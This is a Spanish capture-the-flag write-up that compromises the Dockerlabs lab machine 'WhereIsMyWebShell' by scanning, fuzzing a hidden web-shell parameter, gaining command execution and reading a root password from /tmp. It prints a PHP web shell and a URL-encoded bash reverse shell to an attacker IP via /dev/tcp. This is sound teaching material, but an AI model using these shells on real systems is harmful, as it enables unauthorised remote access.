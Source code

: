 # Máquina WhereIsMyWebShell

---------------------

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 80.

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos la versión de Apache y un título de la web. Accedemos a la web para seguir inspeccionando:

![Pasted image 20240412230806](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/6fe4e0bb-3e2d-48e8-9239-3457fdadcf10)

Encontramos esta web sobre la que no podemos interactuar en ningún aspecto.
Al final del todo encontramos una pequeña pista.

![Pasted image 20240412230913](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1ce153dd-3323-4818-a2d4-fcd87759e3b6)

Más adelante veremos si esta información nos sirve para algo o no.

Como de costumbre, aplicamos **fuzzing** de directorios para intentar descubrir algún directorio interesante con la herramienta **gobuster**.
Indicaremos también que queremos descubrir archivos con extensión php, txt, html, php.bak. Mediante el parámetro "**-x**"

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html,php.bak
________________________________________________
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]   
/warning.html         (Status: 200) [Size: 315] 
/server-status        (Status: 403) [Size: 275] 
```

Encontramos dos archivos interesantes: **warning.html** y **shell.php**

-----------
## Explotación

Inspeccionamos **warning.html**:

![Pasted image 20240412231456](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/c0266fb2-3fa6-4e35-8915-25f023b805d8)

Esto nos da una pista.
Suponemos que el otro archivo (**shell.php**), tiene una estructura similar a:

```php
<?php
	system($_GET['cmd']);
?>
```

Pero desconocemos el nombre del parámetro que se usa en **shell.php**. Es decir, el parámetro "**cmd**" para el ejemplo de arriba.

Lo que vamos a hacer es **Fuzzear** con un diccionario, para descubrir cuál es ese parámetro que nos da una respuesta.
En este caso he decidido emplear **wfuzz**.
Donde usamos 200 hilos ("-t 200") para ir muy rápido, un diccionario típico de [SecLists](https://github.com/danielmiessler/SecLists), la macro **FUZZ** que se reemplazará con las palabras de la lista especificada anteriormente. Es decir, estaremos tratando de ejecutar el comando **id** para cada parámetro posible en la url.

```shell
wfuzz -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
--------------------------------------
000000020:   500        0 L      0 W        0 Ch        "crack"                                                                                                                                  
000000001:   500        0 L      0 W        0 Ch        "# directory-list-2.3-medium.txt"                                                                                                       
000000018:   500        0 L      0 W        0 Ch        "2006"                                                                                                       
000000003:   500        0 L      0 W        0 Ch        "# Copyright 2007 James Fisher"                                                                         
000000015:   500        0 L      0 W        0 Ch        "index"                         
```

Nos está reportando todos los resultados erróneos. Como todos los parámetros que no nos funcionan devuelven 0 líneas en la respuesta, vamos a ocultar los resultados que devuelvan ese número de líneas. Esto lo podemos hacer con el parámetro **--hl=0**.

```shell
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
-------------------------------------
000115401:   200        2 L      4 W        66 Ch       "parameter"     
```

Vemos que el parámetro -> "**parameter**" con el comando **id** que le hemos pasado, nos devuelve 2 líneas a diferencia del resto. Nos dirigimos a la web a comprobar que funciona y efectivamente hemos logrado un **RCE**. (Ejecución remota de comandos).
Nos dirigimos a la web y lo comprobamos:

![Pasted image 20240412233935](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/23082e2d-ccfd-42eb-b5a8-a5e82ec722bf)

Como de costumbre, nos enviamos una **Reverse shell** para ganar acceso a la máquina:

Nos ponemos en escucha por el puerto 443 con **netcat**:

```shell
nc -nlvp 443
```

(Es posible que para escuchar con netcat por el puerto 443 necesites ser el usuario root)

Y en la URL vulnerable:

```
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.10.150/443 0>%261"
```

Los **"%26"** corresponden al símbolo **"&"** de forma URL-encodeada para que no den conflicto. Y siendo la **192.168.10.150** la **IP** de mi máquina atacante.

Hemos ganado acceso a la máquina:

![Pasted image 20240412234748](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/6ea678df-bb8c-4ed4-b3bb-4ecca28edbb8)

---------------
### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------

## Escalada de privilegios

Según la pista que nos dieron al principio de este reto, acerca del directorio **/tmp**. Comprobamos su contenido. Usamos "**ls -la**" para listar posibles ficheros o directorios ocultos.

```shell
cd /tmp
ls -la
---------------------------------
total 4
drwxrwxrwt 1 root root  22 Apr 12 23:04 .
drwxr-xr-x 1 root root 152 Apr 12 23:04 ..
-rw-r--r-- 1 root root  21 Apr 12 16:07 .secret.txt
```

Veamos que encontramos en el txt llamado **.secret.txt**

```shell
cat .secret.txt
----------------------------------
contraseñaderoot123
```

Nos otorga una contraseña para el usuario **root** directamente.

```shell
su root
```

Introducimos la contraseña -> **contraseñaderoot123**

```shell
whoami
----------------------------------
root
```

¡ Hemos logrado el nivel de privilegios máximo sobre la máquina !

